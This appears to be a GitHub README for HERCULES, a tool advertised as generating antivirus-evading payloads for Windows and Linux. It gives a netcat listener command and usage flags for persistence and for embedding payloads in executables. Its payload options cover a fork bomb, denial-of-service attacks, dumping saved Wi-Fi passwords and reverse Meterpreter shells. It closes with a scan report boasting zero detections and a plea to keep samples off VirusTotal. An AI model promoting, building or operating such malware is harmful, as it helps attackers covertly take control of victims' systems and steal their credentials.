 # HERCULES
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (Ip) (Port) (Options)


Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

     ~PERSSISTENCE                     Installs a persistence module

     ~DISTRACT                         Executes a fork bomb bat file for distraction   

     ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

     ~DOS -A "www.targetsite.com"      Starts a denial of service atack

     ~WIFI-LIST 					   Dumps all wifi history data with passwords

     ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE !

- Dynamic linking makes payload size smaller !
- Using persistence and keylogger may atract anti virus softwares !
- Please don't disribute any samples to Virus Total !

# AV AWARENESS

File Name: Payload.exe
File Size: 7.57 MB
Scan Date: 11:06:04 | 06/08/2016
Detected by: 0/35

MD5: 752e10459e0624beb6747ae85f8f9261
SHA256: 491bab16a4701102f201800322cf06bb95229dec012b5703e33be77d74b672a6
Verified By NoDistribute: http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

- A-Squared:  Clean
- Ad-Aware:  Clean
- Avast:  Clean
- AVG Free:  Clean
- Avira:  Clean
- BitDefender:  Clean
- BullGuard:  Clean
- Clam Antivirus:  Clean
- Comodo Internet Security:  Clean
- Dr.Web:  Clean
- ESET NOD32:  Clean
- eTrust-Vet:  Clean
- F-PROT Antivirus:  Clean
- F-Secure Internet Security:  Clean
- FortiClient:  Clean
- G Data:  Clean
- IKARUS Security:  Clean
- K7 Ultimate:  Clean
- Kaspersky Antivirus:  Clean
- McAfee:  Clean
- MS Security Essentials:  Clean
- NANO Antivirus:  Clean
- Norman:  Clean
- Norton Antivirus:  Clean
- Panda CommandLine:  Clean
- Panda Security:  Clean
- Quick Heal Antivirus:  Clean
- Solo Antivirus:  Clean
- Sophos:  Clean
- SUPERAntiSpyware:  Clean
-Trend Micro Internet Security:  Clean
- Twister Antivirus:  Clean
- VBA32 Antivirus:  Clean
- VIPRE:  Clean
- Zoner AntiVirus:  Clean
				

